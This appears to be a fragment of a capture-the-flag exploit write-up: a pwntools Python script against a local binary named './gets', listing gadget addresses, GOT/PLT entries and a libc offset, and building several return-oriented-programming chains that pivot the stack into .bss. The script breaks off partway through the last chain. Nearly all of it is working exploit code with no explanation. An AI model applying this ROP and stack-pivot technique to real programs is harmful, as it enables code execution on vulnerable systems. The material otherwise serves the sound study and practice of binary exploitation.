 # EXP
```python
from pwn import *

binary=ELF("./gets")
bss=binary.bss()

#gadgets
pop_rdi_ret=			0x00000000004005b3
leave=				0x0000000000400544
pop_rsi_r15_ret=		0x00000000004005b1
rbx_rbp_r12_r13_r14_r15_ret=	0x0000000004005AA
do_call=			0x000000000400590
rsp_r13_r14_r15=		0x00000000004005ad
add_ebx_esi=			0x00000000004004f9
gets_got=			0x601020
gets_plt=			0x400410
pop_r15=			0x00000000004005b2
pop_rbp_ret=			0x0000000000400490
csu_init=			0x000000000400550

#value
df=				-0x299f0
off=				-(0x7ffff7a7bd00-0x7ffff7a52390)
off=				off&0xffffffff
addr1=				bss+0x200
addr2=				bss+0x300
addr3=				bss+0x400
addr4=				bss+0x500
addr5=				bss+0x600
aim1=				0x601328
aim2=				0x601430+4



# rop chains
p0=[
pop_rdi_ret,addr1,gets_plt,
pop_rdi_ret,addr2,gets_plt,
pop_rdi_ret,addr3,gets_plt,
pop_rdi_ret,addr5,gets_plt,
pop_rbp_ret,addr1-8,leave
]

p1=[
pop_rdi_ret,gets_got+24,gets_plt,
pop_rbp_ret,addr2-8,
rsp_r13_r14_r15,gets_got
]

p2=[
csu_init,pop_rbp_ret,addr3-0x8,leave
]

p3=[
pop_rdi_ret,aim1-0x8,gets_plt,
pop_rdi_ret,aim1+4*8,gets_plt,
pop_rbp_ret,aim1-0x8-0x8,leave
]

p4=[
leave
```